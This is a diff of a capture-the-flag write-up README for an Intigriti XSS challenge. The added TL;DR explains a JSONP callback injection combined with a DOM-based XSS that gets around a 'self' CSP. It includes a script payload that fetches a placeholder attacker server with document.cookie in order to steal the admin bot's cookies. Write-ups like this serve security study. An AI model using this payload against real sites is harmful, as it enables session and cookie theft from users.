

Before and after one commit to Franc-Zar/CTFsWriteups, a Markdown page: intigriti/february-challenge-0226/README.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/intigriti/february-challenge-0226/README.md
+++ b/intigriti/february-challenge-0226/README.md
@@ -4,8 +4,8 @@
 
 The solution:
 
-* Should leverage a XSS vulnerability on the challenge page.
-* Shouldn't be self-XSS or related to MiTM attacks.
+* Should leverage a **XSS** vulnerability on the challenge page.
+* Shouldn't be **self-XSS** or related to **MiTM** attacks.
 * Should work in the latest version of Google Chrome.
 * Should include:
     * The flag in the format **INTIGRITI{.*}**
@@ -19,6 +19,27 @@ Get started:
 2. Solve it locally!
 3. Repeat your attack against the [challenge page](https://challenge-0226.intigriti.io/challenge) & let's capture that flag!
 
+## TL;DR
+
+* The application exposes a vulnerable `/api/jsonp` endpoint that reflects the callback parameter directly into executable JavaScript:
+    ```javascript
+    response = f"{callback}({json.dumps(user_data)})"
+    ```
+
+* By supplying `?callback=function(<args>)//`, the JSON payload can be commented out, allowing arbitrary JavaScript execution;
+
+* A malicious post is created containing:
+
+    ```javascript
+    <script src="/api/jsonp?callback=fetch('https://<attacker-server>?'%2Bdocument.cookie)//"></script>
+    ```
+
+* Due to a **DOM-based XSS** in `/app/static/js/preview.js` (innerHTML + script reinjection), the payload is injected and executed;
+
+* Although a **CSP** is present `(script-src 'self')`, `connect-src *` allows outbound requests;
+
+* When the post is reported, the admin bot loads it, executes the payload, and exfiltrates its cookies (including the flag) to the attacker-controlled server.
+
 
 ## Analysis
 
@@ -95,7 +124,7 @@ def api_render():
 
 The application renders user-supplied Markdown content without performing any form of HTML sanitisation or output encoding, allowing arbitrary HTML and JavaScript to be stored and potentially executed in the browser.
 
-Another very interesting element is the following endpoint:
+Another particularly interesting endpoint is the following:
 
 ```python
 @app.route('/api/jsonp')
````
Also changed, not shown: other parts of intigriti/february-challenge-0226/README.md (+96 -13 lines).
